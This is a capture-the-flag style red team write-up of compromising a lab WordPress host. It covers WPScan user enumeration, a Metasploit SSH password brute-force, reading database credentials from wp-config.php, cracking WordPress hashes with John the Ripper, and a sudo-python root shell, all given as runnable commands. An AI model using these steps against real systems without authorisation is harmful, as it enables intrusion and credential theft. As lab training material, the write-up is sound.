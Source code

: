 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV -O 192.168.1.110`

![Initial Nmap Scan](Images/InitialNmapScan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP: OpenSSH
  - Port 80/TCP: Apache web server
  - Port 111/TCP: rpcbind
  - Port 139/TCP: Samba smbd
  - Port 445/TCP: Samba smbd

The following vulnerabilities were identified on each target:
- Target 1
  - Wordpress server is vulnerable to user enumeration
  - Wordpress and ssh server have weak passwords
  - MySQL password is stored in plain text
  - Wordpress hashes are stored unsalted
  - Steven user account has sudo permissions for Python

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Start with a user enumeration of the Wordpress website using Wpscan
        - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
        - ![WPScan](Images/Wpscan.png "WPScan")
      - Using the ssh module in Metasploit we will break into Michael's account
        - `msfconsole`
        - `search ssh`
        - `use auxiliary/scanner/ssh/ssh_login`
        - `show options`
        - `set username michael`
        - `set user_as_pass true`
        - `set pass_file /usr/share/wordlists/rockyou.txt`
        - `set rhosts 192.168.1.110`
        - `set rport 22`
        - `set stop_on_success true`
        - ![Metasploit](Images/Metasploit.png "Metasploit SSH Cracker") 
        - Michael's password is michael
      - Now that we have access to Michael's account we ssh in and search the website filed for the first flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html`
        - `grep -nr 'flag1'`
        - ![flag1](Images/flag1.png "First flag") 
  - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - We have the ssh login for Michael from the first flag so we login with that again and run a find command to locate any files named flag
        - `ssh michael@192.168.1.110`
        - `find / -iname '*flag*' -type f -print 2>/dev/null`
        - ![flag2 location](Images/flag2Location.png "Second flag location") 
        - We now know it is stored in /var/www/flag2.txt
        - `cat /var/www/flag2.txt`
        - ![flag2](Images/flag2.png "Second flag") 
  - `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - We are going to locate the password to the MySQL server and than search the database for the next flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html/wordpress`
        - `cat wp-config.php`
        - ![MySQL Login Info](Images/MySQL_Login.png "MySQL Login Info")
        - We now know that the MySQL username is `root` with `R@v3nSecurity` as the password so now we will login to the database and search it for the flag
        - `mysql -u root -pR@v3nSecurity`
        - `use wordpress;`
        - `show tables;`
        - ![MySQL Tables](Images/MySQL_Tables.png "MySQL Tables")
        - `describe wp_posts;`
        - ![MySQL wp_posts](Images/MySQL_wp_posts.png "MySQL wp_posts")
        - `select post_content from wp_posts where post_content like '%flag%';`
        - ![Flag 3 and 4](Images/flag3and4.png "Flag 3 and 4")
        - This gives us the third and fourth flag but we will continue to escalate privileges to root regardless to demonstrate how to do it

  - `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - We will be finding the password hash for the steven user account and cracking it than using the steven user permissions to create a root shell and find the last flag
      - `ssh michael@192.168.1.110`
      - `mysql -u root -pR@v3nSecurity`
      - `select * from wp_users;`
      - ![MySQL wp_users](Images/MySQL_wp_users.png "MySQL wp_users")
      - Now we take the hashes that we found in the wp_users table and we put them into a text file to be cracked using John the Ripper
      - `john MySQL_Hashes.txt --wordlist="/usr/share/wordlists/rockyou.txt"`
      - `john --show MySQL_Hashes.txt`
      - ![Steven's Password](Images/StevensPassword.png "Steven's Password")
      - Now we login to the ssh account using Steven's account
      - `ssh steven@192.168.1.110`
      - We have to check the permissions of Steven's account
      - `sudo -l`
      - ![Steven's Permissions](Images/StevensPerms.png "Steven's Permissions")
      - We now know that Steven can use sudo permissions for python so now we can exploit this by spawning a root bash shell
      - `sudo python -c 'import pty; pty.spawn("/bin/bash")'`
      - Now we run another seach for a flag file now that we have root permissions
      - `find / -iname '*flag*' -type f`
      - ![Flag 4 Location](Images/flag4Location.png "Flag 4 Location")
      - `cat /root/flag4.txt`
      - ![Flag 4](Images/flag4.png "Flag 4")